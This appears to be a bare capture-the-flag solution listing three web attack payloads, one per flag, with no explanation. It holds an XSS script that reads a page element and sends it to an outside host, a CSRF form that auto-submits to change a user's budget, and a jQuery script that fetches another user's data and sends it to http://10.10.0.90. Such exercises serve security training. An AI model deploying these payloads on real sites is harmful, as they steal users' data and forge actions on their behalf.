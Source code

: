 To get flag1:
    <script>var x = document.getElementById('flag').innerHTML;document.location = 'http://localhost:8000/' + x;</script>


To get flag2:
    <form method="post" action="/update-budget" name="form">
        <input type="hidden" name="username" value="abcdabcd">
        <input type="hidden" name="identifier" value="0efe4d62d9dd91f9cbd5c2219726ea0f">
        <input type="hidden" value="100000" name="budget">
    </form>
    <script>document.form.submit();</script>


To get flag3:
    <script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
    <script>
       
       $(function () {
          $.get('/user/view?identifier=805bbd30986ea885c07d728ce4d7e1c4', function (response) {
             alert(response);
             
             $.ajax({
                type: 'GET',
                url: 'http://10.10.0.90/' + response,
                data: response,
            });
             
          });
       });

    </script>